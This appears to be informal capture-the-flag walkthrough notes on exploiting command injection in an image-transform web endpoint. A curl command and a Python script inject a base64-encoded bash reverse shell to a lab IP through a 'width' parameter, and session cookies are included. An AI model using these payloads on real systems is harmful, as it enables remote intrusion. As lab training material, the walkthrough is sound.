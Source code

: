 apply_visual_transform is the endpoint
- http://$IP:8000/apply_visual_transform

And we have to do this from test user account only
We need JSON payload with these params
- imageId
- transformType --- which could be crop

And we need to upload an image and findout the ID of it
And the image must be in the allowed mime type list
And extension should be in allowed list

We have to modify the extension some how to allow command injection
Or there is a params dict in payload "x" and "y" "width" and "height"

Lets send the request , we can upload file and get its ID by dumping db.json file

Uploaded a file and dumped db.json file
This is the id - 6ed3b6c0-826d-4894-a3b4-d2b6c693652a

Now sending curl request
```bash
curl -H "Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aN9RUw.OWHWbAClXsoFgs1Uk0yytql60oQ" http://$IP:8000/apply_visual_transform --json '{"imageId":"6ed3b6c0-826d-4894-a3b4-d2b6c693652a", "transformType" : "crop", "params" : "{'x': 20,
'y': ; 10,
'width' : 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTEvNDQ0NCAwPiYxCg== | base64 -d | bash #',
'height' : 222}"}
```
  
Created the python program for the same above payload and request . Lets run it and see if we get shell

We need to add Content-Type too . Lets add it in the program
```python
import requests

BASE_URL = "http://10.10.11.88:8000/"
ENDPOINT = "apply_visual_transform"

sessionContentTypeHeader = {"Cookie" : "session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aN_eAw.FObcxxeYVxrGtH_n1xYtQlXlSFo",
        "Content-Type" : "application/json"}

payLoad = {"imageId" : "f0571910-eb84-475c-9124-85cef7eaefa7",
        "transformType" : "crop",
        "params" : {
        "x" : 12,
        "y" : 24,
        "width" : "; echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTEvNDQ0NCAwPiYxCg== | base64 -d | bash #",
        "height" : 2222
        }

}

shellRequest = requests.post(BASE_URL+ENDPOINT, headers=sessionContentTypeHeader, json=payLoad)

print(shellRequest.text)  
```
And we got the reverseShell of web account
